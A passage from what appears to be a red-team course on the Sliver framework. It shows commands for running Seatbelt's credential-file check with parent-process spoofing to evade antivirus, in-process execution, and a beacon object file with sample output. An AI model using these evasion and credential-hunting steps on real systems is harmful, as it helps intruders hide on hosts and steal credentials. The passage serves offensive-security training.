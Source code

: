 All of this information indicates this process was used to run a post-exploitation module and will by default get caught by most AV’s. 

A more stealthy approach would be to change the default process to something more realistic and use parent process spoofing in order to mask our activity such as in the example below.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt -P 2968 -p "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" " WindowsCredentialFiles"
```

In this case we spoof our parent process id to `2968`, a Chrome process that has other similar child processes and set the default program to be `chrome.exe`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/93ee0728-be82-4fbb-8084-47f2bd336ece/Untitled.png)

This already looks a lot better and is more likely to bypass detections. A further improvement could be to identify processes that already load the .net CLR and use those to host our post-exploitation payloads or doing additional obfuscation of our extensions to avoid static detections such as `Seatbelt`,However this is somewhat beyond the scope of this course.

Another way to avoid detection is by running the assembly in process using the `-i` flag, while that avoids spinning up a new process, if the extension crashes for whatever reason you will loose your implant.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt -i " WindowsCredentialFiles"
...
```

If we take a look at the process hosting seatbelt, we’ll see its our implant process which will contain the .NET assembly references.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/37729326-f18b-4250-a873-d4bf4e54b7d5/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1c05c2f-f2b7-4784-a23b-a837f456cb45/Untitled.png)

## Bof’s

Beacon object files are loaded using trustedsec’s coffloader, when you run a bof command the loader will first be loaded into memory and is used to run whichever bof you choose. From an operator’s perspective bof’s are similar to basic sliver commands.

```bash
[server] sliver (UNABLE_PRIDE) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
test.local\tester

GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
test.local\None                              Group                    S-1-5-21-3109228153-3872411817-1195593578-513 Mandatory group, Enabled by default, Enabled group,
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114
BUILTIN\Administrators                            Alias                    S-1-5-32-544
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
```